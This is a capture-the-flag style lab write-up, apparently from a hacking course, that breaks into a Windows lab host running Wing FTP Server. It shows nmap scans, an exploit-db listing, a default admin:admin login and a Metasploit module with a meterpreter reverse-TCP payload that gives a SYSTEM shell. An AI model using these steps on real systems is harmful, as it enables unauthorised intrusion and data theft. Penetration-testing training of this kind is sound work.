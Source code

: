 IP Address is 
10.14.1.36

Suggestions indicate:
Active Information Gathering
Vulnerability & Exploit Databases (exploit-db and searchsploit)
Intro Password Attacks
Basic Commands
Exploit commands

Lets Start with Scanning
First we will capture our report to 2/initial
                                         

nmap -Pn -sC -sV -oN 2/initial $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:07 EDT
Nmap scan report for 10.14.1.36
Host is up (0.17s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Wing FTP Server
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| Status for user anonymous:
|     Connected for 0 minutes, 2 seconds
|     2 users online.
|     Uploaded 0 files, 0.000 KB, 0.000 KB/sec average
|     Downloaded 0 files, 0.000 KB, 0.000 KB/sec average
|_End of status.
80/tcp open  http    Wing FTP Server(Ferdi Bak)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not found
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: application/octet-stream
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.0 200 HTTP OK
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: text/html
|     Content-Length: 316
|     Connection: close
|     <noscript><center><H2>The web client requires that you have Javascript enabled on your browser.<br>If you're not sure how to do this, <a href='help_javascript.htm'>click here.</a></H2></center></noscript>
|_    <meta http-equiv='Content-Type' content='text/html; charset=utf-8'><script>top.location='login.html';</script>
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Wing FTP Server(Ferdi Bak)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :


So we see FTP and 80 (http) open
Additionally, we can see it's using "Wing FTP Server"
Lets search and see if there is anything in searchsploit.
Additionally since it's open on port 80, lets see if there is anything on the page?
![Image1](/VHL/images/2_1.png)



Let's also see if we can determine what OS is being used:


sudo nmap -A -p 21,80 -Pn $STEVEN 
OS details: Microsoft Windows Server 2008 or 2008 Beta 3, Microsoft Windows Server 2008 R2 or Windows 8.1, Microsoft Windows 7 Professional or Windows 8, Microsoft Windows Embedded Standard 7, Microsoft Windows 8.1 R1, Microsoft Windows Phone 7.5 or 8.0, Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7, Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008

So at this point we are guessing this is a windows server.
Let's see what searchsploit and exploit-db have?

Wing FTP Server - (Authenticated) Command Execution (Metasploit)                                              | windows/remote/34517.rb
Wing FTP Server - Authenticated CSRF (Delete Admin)                                                           | php/webapps/48200.txt
Wing FTP Server 3.2.4 - Cross-Site Request Forgery                                                            | multiple/webapps/10821.txt
Wing FTP Server 6.0.7 - Unquoted Service Path                                                                 | windows/local/47818.txt
Wing FTP Server 6.2.3 - Privilege Escalation                                                                  | windows/local/48160.py
Wing FTP Server 6.2.5 - Privilege Escalation                                                                  | multiple/webapps/48154.sh
Wing FTP Server 6.3.8 - Remote Code Execution (Authenticated)                                                 | lua/webapps/48676.txt
Wing FTP Server Admin 4.4.5 - Cross-Site Request Forgery (Add User)                                           | php/webapps/36992.txt
Wing FTP Server Admin 4.4.5 - Multiple Vulnerabilities                                                        | windows/webapps/36861.txt

Since we know anonymous ftp is allowed, maybe we can try that?
![Image2](/VHL/images/2_2.png)

So we know that we can get into the server using anonymous login (with no password). 
Can we do anything with this? I can't tell what version it is using despite being in the page. 
As an anonymous user, I don't have permissions to upload.
Let's see if the exploits yield any success?

Metasploit shows 1 good option:
   11  exploit/windows/ftp/wing_ftp_admin_exec         2014-06-19       excellent  Yes    Wing FTP Server Authenticated Command Execution


This required admin credentials - I realized I didn't have admin credentials, and would be able to utilize this exploit.
Reviewing the internet for "Wing FTP server" however, tells me port 5466 and 7466 are also commonly used ports.
Lets scan to see if these yield anything?

sudo nmap -sS -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:43 EDT
Nmap scan report for 10.14.1.36
Host is up (0.16s latency).

PORT     STATE    SERVICE
5466/tcp open     unknown
7466/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 2.75 seconds

Indeed!  Let's see what is there.
sudo nmap -sV -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:44 EDT
Nmap scan report for 10.14.1.36
Host is up (0.31s latency).

PORT     STATE    SERVICE VERSION
5466/tcp open     unknown
7466/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5466-TCP:V=7.92%I=7%D=7/27%Time=64C2F367%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1E7,"HTTP/1\.0\x20200\x20HTTP\x20OK\r\nServer:\x20Wing\x20FT

It looks like we are getting a page response from one of these, so can we pull a page?
10.14.1.36:7466 yields nothing , but 10.14.1.36:5466 gives us the admin page!

Lets try admin:admin? Wow, I didn't expect that to work…
![Image3](/VHL/images/2_3.png)

So right now, we have both a metasploit that can take an admin user/password, as well as FTP webpage administrator access.
Lets try metasploit first to see where this gets us?

msfconsole
use windows/ftp/wing_ftp_admin_exec
Show options -> 
Module options (exploit/windows/ftp/wing_ftp_admin_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Admin password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5466             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   USERNAME                   yes       Admin username
   VHOST                      no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.4.1       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wing FTP Server >= 3.0.0

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set password admin
password => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set username admin
username => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 10.14.1.36
RHOST => 10.14.1.36

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 172.16.4.1:4444 
[*] Found Wing FTP Server 4.3.8
[+] Found Powershell at C:\Windows\System32\WindowsPowerShell\v1.0\
[*] Executing payload via PowerShell...
[*] Sending stage (175174 bytes) to 10.14.1.36
[*] Meterpreter session 1 opened (172.16.4.1:4444 -> 10.14.1.36:43156 ) at 2023-07-27 18:55:44 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\Windows\system32
meterpreter > sysinfo
Computer        : STEVEN-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

From here, attempted to search for key.txt:
search -f *key.txt
No files matching your search were found.

Ok, nothing returned, lets check the paths from the provided / listed for the course?
ls "C:\Documents and Settings\Administrator\Desktop"
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-05-22 06:22:27 -0400  desktop.ini
100666/rw-rw-rw-  20    fil   2017-05-22 06:23:21 -0400  key.txt.txt


meterpreter > cat key.txt.txt
t70m5jaco2zy9vhqlb6smeterpreter > 

There we go!
